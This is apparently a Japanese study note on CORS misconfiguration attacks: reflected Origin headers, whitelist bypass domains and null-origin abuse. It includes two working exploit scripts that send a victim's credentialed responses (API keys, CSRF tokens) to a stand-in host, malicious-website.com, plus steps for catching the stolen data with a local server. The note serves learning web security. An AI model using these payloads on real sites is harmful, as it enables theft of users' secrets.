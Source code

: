 ## 前提知識
### クロスオリジンリソース共有とは？
- 特定のドメインのリソースにアクセスさせるための機能。
- 同一ドメインポリシーの拡張機能的役割。

## 攻撃概要の説明
### 1. **クライアントが指定したOriginヘッダーからサーバが生成したACAOヘッダー**
- リクエストからOriginヘッダーを読取り、レスポンスが許可されていることを示すレスポンスヘッダーを含める。
	↓リクエスト
	```
	GET /sensitive-victim-data HTTP/1.1
	Host: vulnerable-website.com
	Origin: https://malicious-website.com
	Cookie: sessionid=...
	```
	↓レスポンス
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: https://malicious-website.com // ←アクセスが許可されたことを示す。
	Access-Control-Allow-Credentials: true // ←クッキーを含めることを許可している。
	...
	```

- 以下のスクリプトをWebサイトに配置することで、レスポンスに含まれるAPIキーだったり、CSRFトークンだったりが盗める。
```html
<html>
	<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); /** ←ターゲットサーバのURLとAPIキーなどが生成されている箇所を入力。 **/
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
		location='//malicious-website.com/log?key='+this.responseText;
	}; // ← APIを受け取る先を指定する。
	</script>
</html>
```

## 2. Originヘッダーの解析エラー
- 別ドメインのアクセスを許可する設定として、ホワイトリストを使用することで制限を掛けることができる。
- 指定されたオリジンがホワイトリストにある場合、`Access-Control-Allow-Origin`ヘッダーに反映され、アクセスが許可される。
↓リクエスト
```
	GET /data HTTP/1.1
	Host: normal-website.com
	...
	Origin: https://innocent-website.com
```
↓レスポンス
```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://innocent-website.com
```
- CORSオリジンホワイトリストの実装では、ミスが起こる場合がある。
	- 例：
		- すべてのサブドメインを許可している。(将来的に取得するであろうドメインも含めて)
		- 他組織のドメインを許可している場合
			- これは正規表現で実装されていることが多くミスが起きやすい。
- **攻撃の例**
	- アプリケーションが次の文字で終わるすべてのドメインへのアクセスを許可する。
		```
		normal-website.com
		```
	- 上記に対して、攻撃者は以下のドメインでアクセスすることが可能となる。
		```
		hackersnormal-website.com
		もしくは
		normal-website.com.evil-user.net
		```

## 3. ホワイトリストに登録されたnullオリジン値
- Originヘッダーの使用では、null値がサポートされている。
- 以下の特殊な状況において、Originヘッダーでnull値を送信する場合がある。
	- クロスオリジンリダイレクト
	- シリアル化されたデータからのリクエスト
	- `file`プロトコルを使用してリクエストする。
	- サウンドボックス化されたクロスオリジンリクエスト

- ローカル開発をサポートするためにnullオリジンをホワイトリストに登録する場合がある。
	- ローカル環境のが合い`file://home/kali/.../index.html`となるので、CORSが存在しない。その場合に`null`を使用する。(オリジンは、「プロトコル＋ドメイン＋ポート」の組み合わせで決まる識別子である。)
	↓リクエスト
	```
	GET /sensitive-victim-data
	Host: vulnerable-website.com
	Origin: null
	```
	↓レスポンス
	```
	HTTP/1.1 200 OK
	Access-Control-Allow-Origin: null
	Access-Control-Allow-Credentials: true
	```
	- 上記の様にnullが許可されていた場合クロスオリジンリクエストを生成することができる。
	```html
	<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','vulnerable-website.com/sensitive-victim-data',true);
	req.withCredentials = true;
	req.send();
	
	function reqListener() {
	location='malicious-website.com/log?key='+this.responseText;
	};
	</script>"></iframe>
	```
---
## 攻撃の説明
### 基本的なオリジンリフレクションによるCORSの脆弱性

1. リクエストヘッダーに`Origin: http://hoge.com/`を追加して、`Access-Control-Allow-Origin:`と`Access-Control-Allow-Credentials: true`がレスポンスにあるかを確認。
	![[Pasted image 20251004184839.png]]
2. XSSなどと組み合わせて、被害者が自分が仕込んだOriginヘッダーを含んだリクエストを送信するように仕向ける。
	- 例：
3. `python -m http.server`を起動しリッスン、APIキーを受け取る。
---
